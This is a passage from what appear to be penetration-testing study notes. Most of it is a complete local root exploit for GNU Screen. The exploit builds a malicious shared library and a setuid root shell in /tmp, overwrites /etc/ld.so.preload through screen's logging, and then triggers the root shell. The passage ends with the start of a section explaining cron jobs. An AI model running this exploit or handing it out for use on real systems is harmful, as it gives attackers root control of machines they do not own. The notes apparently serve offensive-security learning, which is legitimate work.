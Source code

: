 ```bash
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

# Root shell binary
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0); setgid(0);
    seteuid(0); setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c

# Abuse screen to overwrite /etc/ld.so.preload
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # set permissions wide open
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline required

# Trigger payload
echo "[+] Triggering..."
screen -ls # loads the malicious library via setuid root
/tmp/rootshell
```

---

# Cron Job Abuse

## What Are Cron Jobs?
- Cron jobs are scheduled tasks in Unix/Linux systems.
- Configured in **crontab** files and executed by the **cron daemon**.
- Typical use cases: backups, cleanup tasks, system maintenance.
- Crontab entry format:
```

minute hour day month weekday command

````
Example:  
`0 */12 * * * /home/admin/backup.sh` → runs every 12 hours.
